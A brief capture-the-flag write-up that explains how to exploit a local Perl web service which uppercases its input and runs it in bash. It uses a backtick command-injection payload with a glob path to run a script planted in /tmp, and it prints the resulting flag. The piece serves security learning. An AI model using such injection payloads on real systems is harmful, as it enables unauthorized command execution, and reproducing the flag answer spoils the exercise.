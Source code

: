 HINT:
There is a bash command executed in the perl code, perhaps you could exploit that

ANSWER:
When reading the perl code we understand that there is a server running on localhost port 4646 it takes two arguments but only the first one is interesting to us as it gets executed in a bash command after being modified to uppcase and gotten white spaces removed.
However you can run capitalized commands in bash but we can write a script that will do that for us.
echo "getflag > /tmp/flag" > /tmp/LOL
We then curl the server with the following command:
curl localhost:4646/?x='`/*/LOL`'
We use a star as we can't write tmp because it will be capitalized and bash will match it with the tmp directory.
we then cat /tmp/flag and get:
g1qKMiRpXf53AWhDaU7FEkczr
